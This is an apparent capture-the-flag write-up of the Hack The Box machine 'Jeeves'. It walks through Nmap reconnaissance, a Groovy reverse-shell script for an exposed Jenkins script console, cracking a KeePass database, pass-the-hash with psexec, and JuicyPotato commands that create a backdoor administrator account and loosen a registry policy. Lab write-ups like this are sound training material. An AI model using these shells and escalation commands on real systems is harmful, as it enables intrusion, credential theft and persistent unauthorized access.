 ```yaml
---
description: https://app.hackthebox.com/machines/114
---
```


# Jeeves

**Difficulty: **<mark style="color:red;">**HARD**</mark>

## Reconnaissance

### Nmap

```java
Nmap scan report for 10.10.10.63
Host is up (0.35s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-26T17:29:27
|_  start_date: 2023-03-26T17:21:07
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 40s, deviation: 0s, median: 40s
```

### HTTP - Port 80

<figure><img src="../../../../.gitbook/assets/http80_1.png" alt=""><figcaption></figcaption></figure>

Enumerating the port 80 you can see that there is **askjenkins** service.

<figure><img src="../../../../.gitbook/assets/http80_2.png" alt=""><figcaption></figcaption></figure>

Here when you search something it throws an error but is an image.

<figure><img src="../../../../.gitbook/assets/http80_3.png" alt=""><figcaption></figcaption></figure>

There is just an error.html and nothing else even when you search something.

So, at the first view a think this was a rabbit hole to make us waste our time.

### HTTP Jetty - Port 50000

<figure><img src="../../../../.gitbook/assets/port50000.png" alt=""><figcaption></figcaption></figure>

Starting to Enumerate the http ports by fuzzing their url's.

<figure><img src="../../../../.gitbook/assets/freoxbuster_jeeves (1).png" alt=""><figcaption></figcaption></figure>

We found something a **jenkins** server in the port **50000** so, this can be our opportunity to gain a foothold on the machine.

<figure><img src="../../../../.gitbook/assets/jenkins_dashboard.png" alt=""><figcaption></figcaption></figure>

When you enter the **askjeeves** directory you see that we can edit things here.

Time to exploit this : }

### SMB & NetBIOS - Port 445/139

You cannot see any files and vulns here, nothing interesting.

## Exploitation

### HTTP Jetty - Port 50000

To exploit Jenkins using the script console use the following script and change the variables to your IP and so on.

Remember set your **netcat** with the specified port first to get the **cmd shell**.

<figure><img src="../../../../.gitbook/assets/groovybackdoor.png" alt=""><figcaption></figcaption></figure>

{% code title="Backdoor script for jenkins" %}
```groovy
String host="<your-IP>";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/gettingshell.png" alt=""><figcaption></figcaption></figure>

Here you can see that we gain access to the system.

## Privilege escalation

There are 2 different ways to root the machine.

### Method 1

The first method is to look for in some directories and you will find a kdbx database so, you can download this to start cracking the database of passwords.

<figure><img src="../../../../.gitbook/assets/downloading_kdbx.png" alt=""><figcaption></figcaption></figure>

To make the crackeable hash use the following commands

```bash
keepass2john CEH.kdbx # Copy the hash and paste it in a file
john -w=<wordlists> hashfile # Use a wordlists to crack the password
```

<figure><img src="../../../../.gitbook/assets/crackedpass.png" alt=""><figcaption></figcaption></figure>

Once you have the password, open the database with keepassxc and use the cracked password.

You'll see different passwords, but the most interesting is the first one, beacuse we have an NTLMv1 hash and we can use it to try pass the hash with the user administrator and others.

<figure><img src="../../../../.gitbook/assets/lm_hash.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/passthehash.png" alt=""><figcaption></figcaption></figure>

Here we try to pass the hash to the use admin in the machine and fortunately is the hash of the user admin.

So, you can gain a shell using **psexec** to get **nt authority** privileges.

### Method 2

Enumerating the privileges information, we can see that the **SeImpersonatePrivilege** is enable so, we can exploit this using the juicypotato binary.

{% embed url="https://github.com/ohpe/juicy-potato" %}

<figure><img src="../../../../.gitbook/assets/seimpersonate1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/smbserver_juicypotato.png" alt=""><figcaption></figcaption></figure>

Once we download the binary to the machine, I'll start doing a backdoor user and assigning to it administrator privileges.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c net user papishampoo hacker123#$ /add " -l 1337
```

<figure><img src="../../../../.gitbook/assets/juicypotato_add_user.png" alt=""><figcaption></figcaption></figure>

Now set the administrator group to papishampoo.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c net localgroup Administrators papishampoo /add" -l 1337
```

<figure><img src="../../../../.gitbook/assets/adding_to_admingroup.png" alt=""><figcaption></figcaption></figure>

After those two commands we need to modify it in the windows registry too using the following.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

<figure><img src="../../../../.gitbook/assets/registry_edit_to_pwned.png" alt=""><figcaption></figcaption></figure>

Now use **crackmapexec** to see if we have the **administrator privileges.**

We can that we pwned as well by doing this.
